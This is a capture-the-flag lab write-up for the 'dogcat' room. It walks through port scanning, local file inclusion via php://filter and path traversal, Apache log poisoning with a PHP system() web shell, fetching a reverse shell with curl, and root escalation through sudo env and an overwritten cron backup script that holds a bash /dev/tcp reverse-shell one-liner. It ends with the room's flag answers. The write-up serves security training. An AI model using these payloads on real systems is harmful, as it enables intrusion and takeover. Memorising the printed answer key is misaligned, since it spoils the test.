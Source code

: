 # dogcat - Medium

```shell
nmap -T4 -p- -A -v 10.10.14.121

feroxbuster -u http://10.10.14.121 -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

vim reverse-shell.php

python3 -m http.server
#transfer shell to victim machine using curl

nc -nvlp 4444

#we get reverse shell on visiting shell.php

pwd

find / -type f -name flag* 2>/dev/null

cat /var/www/flag2_QMW7JvaY2LvK.txt

sudo -l
#we can run env binary as root

sudo /usr/bin/env /bin/sh
#root shell

find / -type f -name flag* 2>/dev/null

cat /root/flag3.txt

ls -la /opt

ls -la /opt/backups

cat /opt/backups/backup.sh
#we can overwrite this to get reverse-shell

echo "#!/bin/bash\nbash -i >& /dev/tcp/10.14.31.212/5555 0>&1" > /opt/backups/backup.sh

#on attacker machine
nc -nvlp 5555
#we get reverse shell here
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.6p1 (Ubuntu)
  * 80 - http - Apache httpd 2.4.38 (Debian)

* We can start by enumerating the webpage for hidden directories.

* The webpage allows us to view photos of dogs and cats, using the 'view' parameter.

* Using ```feroxbuster```, we know that the webpage has directories /cats and /dogs. Besides this, it has a /flag.php page as well, but it cannot be accessed directly.

* When we attempt to view it using ```?view=flag.php```, we get an error message; so we will have to check for other ways to get LFI.

* Using ```?view=cat/../flag.php```, we get error messages - it shows that the code automatically adds '.php' to the end of the path - so it looks for the file 'flag.php.php'

* Futhermore, we cannot use LFI directly here, due to filters; so we can attempt to use other techniques to evade filters by experimenting in Burp Suite Repeater.

* Referring the ```HackTricks``` page for LFI payloads, we get a PHP payload using which we can view the PHP code:

  ```php://filter/convert.base64-encode/resource=index.php```

* Therefore, we can view the PHP source code using:

  ```?view=php://filter/convert.base64-encode/resource=dog```

* This gives us base64-encoded PHP code, and when decoded shows the PHP code for showing dog images.

* As the webpage checks for the strings "dog" or "cat" in the beginning, the request required to view source code for /index.php is:

  ```?view=php://filter/convert.base64-encode/resource=dog/../index```

* Checking the decoded code shows that there is another parameter ```ext``` which adds the default extension '.php', unless specified.

* Now, we can get flag 1 by viewing 'flag.php' similar to how we were able to view 'index.php' above.

* We can view '/etc/passwd' using the following request:

  ```?view=dog/../../../../etc/passwd&ext=```

* Now, we need to attempt to convert LFI to RCE - we can do so using log poisoning method.

* Using the following request, we can view the Apache log files:

  ```?view=dog/../../../../var/log/apache2/access.log&ext=```

* Now, using Burp Suite, we can capture the above request.

* Modify the request's User-Agent field to the value:

  ```<?php system($_REQUEST['c']);?>```

* Now, if we use the following request, we can view the processes running:

  ```?view=dog/../../../../var/log/apache2/access.log&ext=&c=ps```

* Using 'whoami' command similarly, we can see that we are the user 'www-data'.

* Now, we are unable to get reverse-shell using commands (as it's usually done); so we can attempt to transfer reverse-shell file on victim machine using ```curl```.

* Setup the Python http server on attacker machine, and execute the command ```curl http://10.14.31.212:8000/reverse-shell.php -o shell.php``` using RCE in victim machine.

* Now, setup listener and navigate to '/shell.php' - this gives us reverse shell on our listener.

* Now, searching for files with the name 'flag' in it gives flag 2.

* Using ```sudo -l```, we can see that the 'env' binary can be run as root without password.

* We can get exploit for the 'env' binary from GTFObins, and run exploit to get root shell.

* We can get flag 3 from the root directory.

* Now, checking the /opt directory, we have a backups folder inside - this contains a script and a .tar archive.

* The script seems to create an archive of /root/container, a folder which we cannot access directly.

* The .tar file is created recently as well, so we can assume this script to run as a cron job.

* We can overwrite the backup.sh script with a reverse-shell one-liner and setup listener on attacker machine.

* We get reverse-shell on our listener, and we can get flag4 from the /root directory.

```markdown
1. What is flag 1? - THM{Th1s_1s_N0t_4_Catdog_ab67edfa}

2. What is flag 2? - THM{LF1_t0_RC3_aec3fb}

3. What is flag 3? - THM{D1ff3r3nt_3nv1ronments_874112}

4. What is flag 4? - THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
```
